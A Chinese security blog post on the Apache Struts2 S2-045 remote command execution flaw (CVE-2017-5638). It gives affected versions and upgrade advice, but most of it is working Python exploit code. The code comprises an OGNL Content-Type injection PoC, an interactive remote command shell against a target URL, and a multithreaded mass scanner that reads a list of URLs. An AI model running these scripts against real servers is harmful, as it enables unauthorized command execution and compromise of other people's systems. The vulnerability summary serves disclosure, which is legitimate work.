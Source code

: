 ```yaml
---
title: Struts2_045漏洞
date: 2017-03-07 13:57:32
comments: true
tags: 
- struts2漏洞
- struts2 Poc
categories: web安全
password:
copyright: true
---
```

<blockquote class="blockquote-center">Struts2是个好东西</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*


　　Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。
<!--more -->
漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞进而执行系统命令。
风险等级：高风险。
漏洞风险：黑客通过利用漏洞可以实现远程命令执行。
影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。
安全版本：Struts 2.3.32或2.5.10.1。
修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。

更多参考：[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

### POC
```bash
#! -*- encoding:utf-8 -*-
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

```

### Poc_Cmd
```bash
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers

def poc(url,content="echo nMask"):
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+content+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(url,datagen,headers=header)
    response = urllib2.urlopen(request)
    body=response.read()

    return body

url=sys.argv[1]
body=poc(url)
if "nMask" in body:
	print "[Loopholes exist]",url

	while 1:
		con=raw_input("[cmd]>>")
		print poc(url,content=con)
```
运行结果：
```bash
>python s2_045_cmd.py http://xxx.com/?a.action

[Loopholes exist] http://xxx.com/?a.action

[cmd]>>ls
example1
example2
```

### 多线程批量检测

```bash
import urllib2
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
import threading

def poc(url):
	register_openers()
	datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
	header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
	header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo nMask').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
	try:
	    request = urllib2.Request(url,datagen,headers=header)
	    response = urllib2.urlopen(request,timeout=5)
	    body=response.read()
	except:
		body=""

	if "nMask" in body:
		print "[Loopholes exist]",url
		f.write(url+"\n")
	else:
		print "Loopholes not exist",url

if __name__=="__main__":
	'''
	url.txt为待检测url列表
	result.txt为检测完输出结果文件
	'''
	f=open("result.txt","a")
	url_list=[i.replace("\n","") for i in open("url.txt","r").readlines()]
	for url in url_list:
		threading.Thread(target=poc,args=(url,)).start()
		while 1:
			if(len(threading.enumerate())<50):
				break
```
POC下载地址：[https://github.com/tengzhangchao/Struts2_045-Poc](https://github.com/tengzhangchao/Struts2_045-Poc)

更多检测脚本，敬请期待......

欲知Struts2-046漏洞，参考：[struts2-046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
